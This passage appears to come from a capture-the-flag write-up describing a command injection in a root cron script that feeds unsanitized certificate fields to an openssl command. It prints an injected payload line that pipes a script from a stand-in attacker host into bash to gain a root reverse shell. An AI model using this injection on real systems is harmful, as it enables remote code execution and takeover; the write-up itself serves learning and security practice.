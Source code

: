 ##### Possible R.C.E...
e vulnerability is due to the use of user input without proper validation or sanitization in the openssl req command that generates a new certificate. Specifically, the values of $country, $state, $locality, $organization, $organizationUnit, $commonName, and $emailAddress are concatenated and passed to the command using a here-string (<<<). If any of these values contain special characters or shell metacharacters, an attacker could inject additional commands or modify the existing command.

Possible RCE...
```
openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout /tmp/temp.key -out /tmp/temp.crt -days 365 <<<"$country
$state
$locality
$organization
$organizationUnit
; curl http://attacker.com/malware.sh | bash #
$emailAddress
" 2>/dev/null

```
This would send a curl request of a reverse shell as root.

#### RCE Execution...
So to bypass this, we need to set a new certificate which is set to expire in the next 1 day for the script to be executed accordingly....
 ![Screenshot_2023-01-09_00_33_30](https://user-images.githubusercontent.com/99975622/219904901-ddd211b9-6cff-4f19-b1d8-8ace22209806.png)
My guess is that the script was in a crob tab running as root and sure thing it is!
![Screenshot_2023-01-09_00_33_59](https://user-images.githubusercontent.com/99975622/219904931-25ed6080-78d7-4215-8d81-bff96d4be613.png)
Funny enough, there was also another script which returned the web-server and the databse to its default state after some time!
![Screenshot_2023-01-09_00_34_24](https://user-images.githubusercontent.com/99975622/219904957-bd656a83-268e-4d05-86bb-faf7b6a25dbd.png)

## My socials:
<br>@ twitter: https://twitter.com/M3tr1c_root
<br>@ instagram: https://instagram.com/m3tr1c_r00t/
